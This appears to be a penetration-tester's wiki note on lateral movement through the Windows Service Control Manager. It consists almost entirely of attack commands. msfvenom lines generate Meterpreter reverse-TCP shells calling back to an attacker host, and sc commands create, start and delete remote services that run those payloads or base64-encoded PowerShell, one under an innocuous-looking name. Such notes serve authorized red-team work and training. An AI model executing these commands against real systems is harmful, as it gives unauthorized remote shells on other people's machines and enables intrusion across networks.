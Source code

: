 # Service Control Manager

## 01 - Usage

After we generate a reverse/bind shell refer to the techniques to copy the shell via [[Remote File Access|SMB]]

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe-service -o shellsvc.exe

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh-cmd
```

Here's the following syntax

```
C:\> sc \\<IP> create <ServiceSVC> binpath= "c:\path\to\shellsvc.exe"

C:\> sc \\<IP> start <ServiceSVC>

C:\> sc \\<IP> delete <ServiceSVC>
```

## 02 - Use Cases

```
C:\> sc \\<IP> create pwshpayload binpath= "powershell -E <base64_encoded>"

C:\> sc \\<IP> start pwshpayload

C:\> sc \\<IP> delete pwshpayload

C:\> sc \\<IP> create TestMaintenance binpath= "c:\path\to\shellsvc.exe"

C:\> C:\> sc \\<IP> start TestMaintenance

C:\> C:\> sc \\<IP> delete TestMaintenance
```

---
## References

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)